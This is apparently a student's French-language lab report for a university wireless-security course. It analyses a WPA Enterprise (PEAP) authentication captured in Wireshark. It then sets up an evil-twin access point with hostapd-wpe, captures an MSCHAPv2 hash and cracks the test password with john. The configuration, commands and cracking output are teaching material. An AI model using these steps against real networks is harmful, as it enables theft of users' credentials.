




- [Livrables](https://github.com/arubinst/HEIGVD-SWI-Labo3-WPA-Entreprise#livrables)

- [Échéance](https://github.com/arubinst/HEIGVD-SWI-Labo3-WPA-Entreprise#échéance)

- [Quelques éléments à considérer](https://github.com/arubinst/HEIGVD-SWI-Labo3-WPA-Entreprise#quelques-éléments-à-considérer-)

- [Travail à réaliser](https://github.com/arubinst/HEIGVD-SWI-Labo3-WPA-Entreprise#travail-à-réaliser)

# Sécurité des réseaux sans fil

## Laboratoire 802.11 Sécurité WPA Entreprise

__A faire en équipes de deux personnes__

### Objectif :

1.	Analyser les étapes d’une connexion WPA Entreprise avec une capture Wireshark
2.	Implémenter une attaque WPE (Wireless Pwnage Edition) contre un réseau WPA Entreprise

__Il est fortement conseillé d'employer une distribution Kali__ (on ne pourra pas assurer le support avec d'autres distributions). __Si vous utilisez une VM, il vous faudra une interface WiFi usb, disponible sur demande__.

__ATTENTION :__ Il est __particulièrement important pour ce laboratoire__ de bien fixer le canal lors de vos captures et vos injections. Si vous en avez besoin, la méthode la plus sure est de lancer un terminal séparé, et d'ouvrir airodump-ng avec l'option :

```--channel```

Il faudra __garder la fenêtre d'airodump ouverte__ en permanence pendant que vos scripts tournent ou vos manipulations sont effectuées.

## Travail à réaliser

### 1. Capture et analyse d’une authentification WPA Entreprise

Dans cette première partie, vous allez capturer une connexion WPA Entreprise au réseau de l’école avec Wireshark et fournir des captures d’écran indiquant dans chaque capture les données demandées.

- Identifier le canal utilisé par l’AP dont la puissance est la plus élevée. Vous pouvez faire ceci avec ```airodump-ng```, par exemple
- Lancer une capture avec Wireshark
- Etablir une connexion depuis un poste de travail (PC), un smartphone ou une tablette. Attention, il est important que la connexion se fasse à 2.4 GHz pour pouvoir sniffer avec les interfaces Alfa.
- Comparer votre capture au processus d’authentification expliqué en classe (n’oubliez pas les captures !). En particulier, identifier les étapes suivantes :
	
	- Requête et réponse d’authentification système ouvert
	
	  Voici respectivement les requête et réponse d'authentification en système ouvert: 
	
	  
	
	  
	
	  On peut constater, notamment sur la seconde, que le nom du système client (dejvid.muaremi) est transmis à l'AP.
 	- Requête et réponse d’association
	- Sélection de la méthode d’authentification
	
	  
	
	  On remarque ici que la méthode d'authentification proposée par l'AP est EAP-PEAP. Il est à noter qu'elle a été acceptée par le client. Le paquet "hello" du client prend en compte cette méthode d'authentification:
	
	  
	
	- Phase d’initiation. Arrivez-vous à voir l’identité du client ?
	
	  Oui. Elle est visible ici (dejvid.muaremi):
	
	  
	
	  
	
	- Phase hello :
		- Version TLS
		
		  On peut constater que, lors de la phase hello, la version de TLS utilisée est la 1.2. La capture suivante démontre ce cas de figure:
		
		  
		
		- Suites cryptographiques et méthodes de compression proposées par le client et acceptées par l’AP
		
		  Voici la liste des ciphersuites proposées par le client (il y en a 22), listées dans le paquet "Hello" du client:
		
		  
		
		  Concernant les méthodes de compression proposées par le client, il y en a aucune qui n'est proposée:
		
		  
		
		  Du point de vue de la réponse de l'AP, cette dernière choisit la ciphersuite suivante:
		
		  
		
		  Il est à noter que la réponse du serveur contient bien l'information, concernant le fait qu'aucun algorithme de compression n'est choisi ici.
		
		- Nonces
		
		  Voici les nonces échangés, respectivement du côté client et du côté serveur:
		
		  
		
		  
		
		- Session ID
		
		  On remarque ici qu'aucun sessionID n'est trouvé dans le paquet (Session ID Length = 0):
		
		  
		
	- Phase de transmission de certificats
	
	  La phase transmission des certificat se fait en même temps que la réponse "Hello" de l'AP au client (capture ci-dessous).
	
	 	- Certificat serveur
		
		Voici le certificat transmis par l'AP au client:
		
		
		
		  - Change cipher spec
		
		
		
	- Authentification interne et transmission de la clé WPA (échange chiffré, vu comme « Application data »)
	
	  On constate ici une série de paquets échangés et chiffrés. La transmission de clé se réalise dans l'un d'eux.
	
	  
	
	- 4-way hadshake
	
	  Voici le 4 way handshake. Cette image provient d'autre capture que celle développée plus haut.
	
	  

### Répondez aux questions suivantes :

> **_Question :_** Quelle ou quelles méthode(s) d’authentification est/sont proposé(s) au client ?
> 
> **_Réponse :_**  Ici la méthode d'authentification proposée au client est EAP-PEAP

---

> **_Question:_** Quelle méthode d’authentification est utilisée ?
> 
> **_Réponse:_**  La méthode d'authentification utilisée est EAP-PEAP. Elle a été acceptée par le client.

---

> **_Question:_** Lors de l’échange de certificats entre le serveur d’authentification et le client :
> 
> - Le serveur envoie-t-il un certificat au client ? Pourquoi oui ou non ?
> 
> **_Réponse:_** Oui. Ce certificat sert à authentifier l'AP auprès du client.
> 
> - b.	Le client envoie-t-il un certificat au serveur ? Pourquoi oui ou non ?
> 
> **_Réponse:_** Non, le client n'envoie aucun certificat au serveur dans ce cas précis de la connexion à l'AP de l'HEIG-VD. En effet, le client réalise une simple authentification MS-CHAPV2.

---

### 2. Attaque WPA Entreprise

Les réseaux utilisant une authentification WPA Entreprise sont considérés aujourd’hui comme étant très surs. En effet, puisque la Master Key utilisée pour la dérivation des clés WPA est générée de manière aléatoire dans le processus d’authentification, les attaques par dictionnaire ou brute-force utilisés sur WPA Personnel ne sont plus applicables. 

Il existe pourtant d’autres moyens pour attaquer les réseaux Entreprise, se basant sur une mauvaise configuration d’un client WiFi. En effet, on peut proposer un « evil twin » à la victime pour l’attirer à se connecter à un faux réseau qui nous permette de capturer le processus d’authentification interne. Une attaque par brute-force peut être faite sur cette capture, beaucoup plus vulnérable d’être craquée qu’une clé WPA à 256 bits, car elle est effectuée sur le compte d’un utilisateur.

Pour faire fonctionner cette attaque, il est impératif que la victime soit configurée pour ignorer les problèmes de certificats ou que l’utilisateur accepte un nouveau certificat lors d’une connexion.

Pour implémenter l’attaque :

- Installer ```hostapd-wpe``` (il existe des versions modifiées qui peuvent peut-être faciliter la tâche... je ne les connais pas. Dans le doute, utiliser la version originale). Lire la documentation du site de l’outil ou d’autres ressource sur Internet pour comprendre son utilisation
- Modifier la configuration de ```hostapd-wpe``` pour proposer un réseau semblable au réseau de l’école. Ça ne sera pas evident de vous connecter si vous utilisez le même nom HEIG-VD. L'option la plus sure c'est de proposer votre propre réseau avec un SSID comme par exemple, HEIG-VD-Faux (sachant que dans le cas d'une attaque réelle, il faudrait utiliser le vrai SSI) 
- Lancer une capture Wireshark
- Tenter une connexion au réseau (ne pas utiliser vos identifiants réels)
- Utiliser un outil de brute-force (```john```, par exemple) pour attaquer le hash capturé (utiliser un mot de passe assez petit pour minimiser le temps)

### Répondez aux questions suivantes :

> **_Question :_** Quelles modifications sont nécessaires dans la configuration de hostapd-wpe pour cette attaque ?
>
> **_Réponse :_** 
>
> Le fichier de configuration de ```hostapd-wpe.conf``` se trouve dans le dossier ```/etc/hostapd-wpe```. Il contient tous les paramètres de configuration du hotspot malicieux.
>
> Dans ce fichier, il va falloir modifier les paramètres suivants (avec les valeurs associées):
>
> ```
> interface=wlan0mon
> ssid=HEIG-VD-Hack
> ```
>
> Il est également possible de changer le canal (channel), au cas où on veut utiliser le même canal spécifique que l'Access Point légitime.
>
> Une fois ces paramètres changés, il va falloir mettre son antenne en mode "monitor", pour cela, il faut taper deux commandes:
>
> ```
> sudo airmon-ng check kill #afin de killer les process qui utiliseraient l'interface
> sudo airmon-ng start wlan0 #activer le mode monitor
> ```
>
> Il suffit finalement de taper la commande suivante pour lancer l'AP malicieux:
>
> ```
> sudo hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
> ```
>
> Si la configuration du fichier est la bonne, le message ci-dessous devrait apparaître:

> ```
> Using interface wlan0mon with hwaddr 00:c0:ca:58:97:18 and ssid "HEIG-VD-Hack"
> wlan0mon: interface state UNINITIALIZED->ENABLED
> wlan0mon: AP-ENABLED
> ```

​	Si la connexion se fait, une sortie semblable devrait apparaître:

```
mschapv2: Sun Jun  2 21:37:01 2019
	 username:	patrick.neto
	 challenge:	f6:7d:f7:6f:af:7b:ae:7b
	 response:	72:5d:e0:90:5e:3b:63:f4:47:1d:34:76:83:bb:2d:f1:85:76:76:d4:7c:a5:86:68
	 jtr NETNTLM:		patrick.neto:$NETNTLM$f67df76faf7bae7b$725de0905e3b63f4471d347683bb2df1857676d47ca58668
	 hashcat NETNTLM:	patrick.neto::::725de0905e3b63f4471d347683bb2df1857676d47ca58668:f67df76faf7bae7b
```

​	On peut remarquer ici que le pseudo en clair et le hash du mot de passe sont récupérés.

> **__Question:__** Quel type de hash doit-on indiquer à john pour craquer le handshake ?
>
> **_Réponse:_** Le hash NETNTLM doit être indiqué pour craquer le mot de passe.
>
> Pour craquer le mot de passe, il faut tout d'abord créer un fichier (exemple: crack.txt), dans lequel on va insérer le hash à craquer. Ensuite, il suffit de l'appeler dans la commande suivante 
>
> La commande suivante (avec john) permet de retrouver le mot de passe:
>
> ```
> sudo john --format=netntlm crack.txt
> ```
>
> Une fois la commande lancée, il ne suffit que de quelques secondes pour que le mot de passe soit trouvé (il était volontairement facile à trouver):
>
> ```
> Using default input encoding: UTF-8
> Rules/masks using ISO-8859-1
> Loaded 1 password hash (netntlm, NTLMv1 C/R [MD4 DES (ESS MD5) 128/128 AVX 4x3])
> Press 'q' or Ctrl-C to abort, almost any other key for status
> toto             (patrick.neto)
> 1g 0:00:00:02 DONE 3/3 (2019-06-02 21:46) 0.4166g/s 849275p/s 849275c/s 849275C/s ljeort..tm13
> Use the "--show" option to display all of the cracked passwords reliably
> Session completed
> ```
>
> Le mot de passe est "toto".

---

> **_Question:_** 6.	Quelles méthodes d’authentification sont supportées par hostapd-wpe ?
>
> **_Réponse:_** Hostapd-wpe support les méthodes d'authentification suivante (source: documentation github):
>
> ```
>  1. EAP-FAST/MSCHAPv2 (Phase 0)
>     2. PEAP/MSCHAPv2
>     3. EAP-TTLS/MSCHAPv2
>     4. EAP-TTLS/MSCHAP
>     5. EAP-TTLS/CHAP
>     6. EAP-TTLS/PAP
> ```


## Quelques éléments à considérer :

- Solution à l’erreur éventuelle « ```Could not configure driver mode``` » :

```
nmcli radio wifi off
rfkill unblock wlan
```
-	Pour pouvoir capturer une authentification complète, il faut se déconnecter d’un réseau et attendre 1 minute (timeout pour que l’AP « oublie » le client) 
-	Les échanges d’authentification entreprise peuvent être trouvés facilement utilisant le filtre d’affichage « ```eap``` » dans Wireshark


## Livrables

Un fork du repo original . Puis, un Pull Request contenant :

-	Captures d’écran + commentaires
-	Réponses aux questions


## Échéance

Le 26 mai 2019 à 23h00